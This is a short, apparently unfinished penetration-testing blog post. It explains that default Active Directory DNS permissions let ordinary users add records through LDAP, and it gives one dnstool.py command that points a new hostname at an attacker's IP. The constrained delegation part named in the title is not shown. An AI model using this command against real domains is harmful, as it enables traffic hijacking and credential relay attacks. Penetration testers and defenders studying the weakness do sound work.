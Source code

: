 [back](/)

### Evil DNS zone and Constrained Delegation in Active Directory

Quite often during the attack on the Active Directory it turns out that the DNS server is used with default settings.

Thus, it is possible to add DNS entry with the rights of a regular domain user. The fact is that by default for the Authenticated Users group there are no restrictions on creating DNS records, such through access to LDAP.

![Image](/img/evil_dns/1.png)


**Example 1:**
```
python3 dnstool.py -u 'yourdomain.ru\Tiffany.Molina' -p password --action add -r web332211.domain.ru -d attacker-ip ldap-ip
```


<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)